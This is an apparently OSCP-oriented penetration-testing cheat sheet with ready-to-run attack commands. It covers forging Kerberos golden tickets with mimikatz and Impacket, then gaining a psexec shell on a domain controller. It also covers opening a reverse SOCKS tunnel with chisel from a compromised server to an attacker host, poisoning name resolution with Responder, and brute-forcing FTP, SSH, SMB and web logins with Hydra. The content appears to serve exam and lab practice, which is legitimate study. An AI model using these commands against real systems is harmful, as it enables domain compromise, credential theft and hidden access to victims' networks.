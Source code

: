 ### Golden Tickets
```bash
# on windows
privilege::debug
lsadump::lsa
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
PsExec64.exe \\DC1 cmd.exe

# on kali
impacket-ticketer -nthash 1693c6cefafffc7af11ef34d1c788f47 -domain-sid S-1-5-21-1987370270-658905905-1781884369 -domain corp.com Administrator
export KRB5CCNAME=./Administrator.ccache     
mousepad /etc/resolv.conf
    add > nameserver 192.168.x.x
(or add dc1.corp.com inside of /etc/hosts file otherwise this attack will fail)
psexec.py Administrator@dc1.corp.com -k -no-pass
```

### chisel
![image](https://github.com/nuricheun/OSCP/assets/14031269/38af9dc8-b526-486d-871a-a75ed0fe8f87)

```bash
#chisel
#Run command on attacker machine
chisel server -p 8888 --reverse
#<socks>Run command on Web Server machine
 .  .\chisel.exe client <% tp.frontmatter["LHOST"] %>:8001 R:1080:socks
# and edit the proxychains with the port that chisel provided
/etc/proxychains.conf
socks5 127.0.0.1 1080


#When trying to connect to a local port
C:\\xampp\\htdocs>.\\chisel.exe client 192.168.45.176:8888 R:8090:localhost:80
```

### responder
```bash
sudo Responder -I tun0 -A
```

### Hydra
```bash
hydra <% tp.frontmatter["RHOST"] %> -l <% tp.frontmatter["USERNAME"] %> -P /usr/share/wordlists/<FILE> ftp|ssh|smb://<% tp.frontmatter["RHOST"] %>

# http-get
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.20.218 http-get /webdav/

# http-post-form
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
hydra -l <% tp.frontmatter["USERNAME"] %> -P /usr/share/wordlists/rockyou.txt <% tp.frontmatter["RHOST"] %> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"

# In this case we find out that the username and passwords are being base64 encoded so we did ^USER64^ and ^PASS64^
# Also discovered that the fail code is giving us 403 so set that F=403
```